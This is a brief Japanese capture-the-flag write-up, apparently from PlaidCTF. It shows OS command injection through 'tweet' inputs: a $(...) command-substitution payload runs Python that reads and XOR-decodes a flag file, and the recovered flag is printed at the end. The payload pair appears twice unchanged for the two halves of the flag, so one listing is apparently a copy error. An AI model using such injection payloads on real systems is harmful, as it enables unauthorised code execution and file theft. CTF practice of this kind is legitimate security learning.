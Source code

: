 ```python
```

OS コマンドインジェクションができそうです。`process_flag()` でいじられたフラグを元に戻して読み上げてもらいましょう。

```
Tweet 1: $(python -c "exec(open('/share/input').read().splitlines()[1])"|xxd -pl50|python -c"print' '.join(c for c in raw_input())")" -s "50`
Tweet 2: s=open('/share/flag','rb').read();z=64999;print''.join(chr(ord(s[x+z])^reduce(lambda a,b:a^ord(b),s[x:x+z],0))for x in range(0,len(s),z+1))
```

これでフラグの前半部分が得られました。

```
Tweet 1: $(python -c "exec(open('/share/input').read().splitlines()[1])"|xxd -pl50|python -c"print' '.join(c for c in raw_input())")" -s "50`
Tweet 2: s=open('/share/flag','rb').read();z=64999;print''.join(chr(ord(s[x+z])^reduce(lambda a,b:a^ord(b),s[x:x+z],0))for x in range(0,len(s),z+1))
```

これで後半部分も得られました。

```
PCTF{L15st3n_T0__reee_reeeeee_reee_la}
```
